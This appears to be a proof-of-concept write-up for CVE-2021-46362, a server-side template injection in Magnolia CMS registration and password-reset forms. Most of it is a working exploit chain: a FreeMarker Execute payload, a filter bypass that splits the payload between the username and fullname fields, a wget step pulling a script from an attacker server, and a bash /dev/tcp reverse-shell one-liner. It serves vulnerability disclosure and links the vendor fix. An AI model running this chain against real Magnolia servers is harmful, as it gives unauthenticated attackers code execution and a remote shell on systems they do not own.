

# CVE-2021-46362: Unauthenticated SSTI in Magnolia CMS

In Magnolia (versions <=6.2.3) the registration and/or forgotten-password forms use FreeMarker in order to send emails with dynamic content. By inserting malicious content in the "fullname" parameter, an unauthenticated attacker may perform SSTI (Server-Side Template Injection) attacks which can leverage FreeMarker in order to obtain RCE (Remote Code Execution).

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Proof Of Concept:

As mentioned in the description, the "fullname" parameter is vulnerable to SSTI, unfortunately due to character filtering of double quote and single quote, we cannot directly obtain RCE from this field alone.
<br/>
To solve this, we will use the "username" parameter to store the strings required for the exploit, bypassing the above-mentioned restriction.
<br/>

For example, in order to obtain RCE the following FreeMarker payload can be used:
```
${"freemarker.template.utility.Execute"?new()("command")}
```

But, in order to bypass the restriction, we will split it in the following way:
```
Username: freemarker.template.utility.ExecuteXcommand
Fullname: ${user.name?substring(0,35)?new()(user.name?substring(36))}
```

<strong>Note:</strong> We deduce the "user.name" parameter by reading "publicuserregistration/components/password-reset-email.ftl".
<br/>

Because the username also has different special character restrictions (E.g. bad chars: "/", ":", etc.), we will use 2 commands in order to execute any code on the target system.
<br/>

The first command is a "wget" that will be used to download a more complex bash command containing restricted characters. The command will be hosted in "index.html" on an attacker-controlled server and, in this case, has the following content:
```
0<&196;exec 196<>/dev/tcp/127.0.0.1/5555; sh <&196 >&196 2>&196
```

The SSTI used to download the payload was the following:
```
Username: freemarker.template.utility.ExecuteXwget 127.0.0.1 -O exploit
Fullname: ${user.name?substring(0,35)?new()(user.name?substring(36))}
```

Register User:


Trigger Wget via Forgot Password:


Attacker View ("index.html" gets requested from the malicious server):


With the "exploit" file in place, we now need to execute it with the following SSTI:
```
Username: freemarker.template.utility.ExecuteXbash exploit
Fullname: ${user.name?substring(0,35)?new()(user.name?substring(36))}
```

Same process is used as above with the new malicious username.
<br/>
Register user2:


Trigger RCE:


Receive reverse shell:


### Additional Resources:

More details about FreeMarker SSTI vulnerabilities can be found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#freemarker-java)
